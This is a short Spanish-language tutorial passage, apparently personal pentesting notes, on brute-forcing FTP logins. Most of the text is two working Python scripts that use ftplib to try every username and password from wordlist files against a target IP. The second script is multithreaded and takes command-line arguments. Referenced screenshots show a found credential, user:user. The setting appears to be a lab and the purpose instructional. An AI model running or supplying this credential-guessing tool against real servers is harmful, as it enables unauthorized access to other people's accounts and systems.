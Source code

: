 Para ello vamos a utilizar la librería ftplib y tener dos ficheros de textos donde uno contenga los posibles usuarios y otro las posibles contraseñas:
![[Pasted image 20221217090603.png]]
![[Pasted image 20221217090607.png]]
Y a continuación utilizamos este código donde se hará el ataque de fuerza bruta FTP utilizando estos dos ficheros de texto:
```python
import ftplib

def ataque(ip,usuario,password):
    ftp = ftplib.FTP(ip)
    try:
        ftp.login(usuario,password)
        ftp.quit()
        print('User: {}:{}'.format(usuario,password))
    except:
        print("Falló la autenticación")

ip = '10.10.0.0'
usuarios = open('usuarios.txt','r')
usuarios = usuarios.read().split('\n')
passwords = open('passwords.txt','r')
passwords = passwords.read().split('\n')

for u in usuarios:
    for p in passwords:
        ataque(ip,u,p)
```
Y si lanzamos el script vemos que nos encuentra un login correcto con el usuario y contraseña user:user:+
![[Pasted image 20221217090641.png]]
Y vemos que si probamos con user y user nos inicia la sesión:

![[Pasted image 20221217090651.png]]
O incluso se puede mejorar este código:
```python
import ftplib
import threading
import signal
import argparse

# Crea un objeto ArgumentParser
parser = argparse.ArgumentParser(description='Inserte los diccionarios')

# Agrega argumentos posicionales
parser.add_argument('users', help='Archivo con los usuarios')
parser.add_argument('passwords', help='Archivo con las contraseñas')

# Analiza los argumentos de la línea de comandos
args = parser.parse_args()

# Variable global para controlar la terminación de hilos
terminate_threads = False

def iniciar_sesion(ip, usuario, password):
    global terminate_threads
    ftp = ftplib.FTP(ip)
    try:
        ftp.login(usuario, password)
        ftp.quit()
        print('User: {}:{}'.format(usuario, password))
        # Si se encuentra una combinación válida, configuramos la bandera para detener los otros hilos
        terminate_threads = True
    except Exception as e:
        if terminate_threads:
            return
        pass  # No se imprime nada en caso de fallo

# Función para iniciar sesión en paralelo
def iniciar_sesiones_concurrentes(usuarios, contrasenas, ip):
    global terminate_threads
    threads = []
    for u in usuarios:
        for p in contrasenas:
            thread = threading.Thread(target=iniciar_sesion, args=(ip, u, p))
            threads.append(thread)
            thread.start()

    for thread in threads:
        thread.join()

# Manejar la señal de Ctrl+C para detener el script
def handle_interrupt(signum, frame):
    global terminate_threads
    terminate_threads = True

signal.signal(signal.SIGINT, handle_interrupt)

ip = input("Introduce la IP objetivo: ")
with open(args.users, 'r') as usuarios_file, open(args.passwords, 'r') as contrasenas_file:
    usuarios = usuarios_file.read().split('\n')
    contrasenas = contrasenas_file.read().split('\n')

try:
    iniciar_sesiones_concurrentes(usuarios, contrasenas, ip)
except KeyboardInterrupt:
    pass
```
Y este sería el resultado:
![[Pasted image 20231012121522.png]]
